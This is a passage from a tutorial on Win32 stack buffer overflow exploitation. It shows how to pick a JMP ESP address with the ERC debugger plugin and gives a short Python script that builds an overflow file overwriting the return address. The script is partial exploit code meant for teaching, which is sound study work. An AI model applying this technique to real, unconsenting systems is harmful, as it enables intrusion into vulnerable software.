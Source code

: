 <p align="center"><img src="/images/basics-of-exploit-development-1-win32-buffer-overflows/image_18.jpeg"/></p>
<p align="center"><i>ERC –SearchMemory FF E4 -ASLR -SafeSEH -Rebase -NXCompat</i></p>

As can be seen from the image there are many options available. For this instance, address 0x74302347 was chosen, replacing the Bs in our exploit code. Remember, when entering values into your exploit code, they will appear reversed in memory. As such, your exploit code will now look something like this:
```
#Bad Characters \x00\x0A\x0D
file = open('exploit-1.txt', 'w')

buf = ""
buf += "A" * 256
buf += "\x47\x23\x30\x74" # 0x74302347
buf += "C" * (1000 - len(buf))

file.write(buf)
file.close()
```

If we pass this string into the application again and put a breakpoint at 0x74302347 (in X64dbg, right click in the CPU window and select “Go to” --> “Expression,” then paste the address and hit return, right click on the address and select “breakpoint” --> “Toggle” or press F2)  we should see execution stop at our breakpoint.
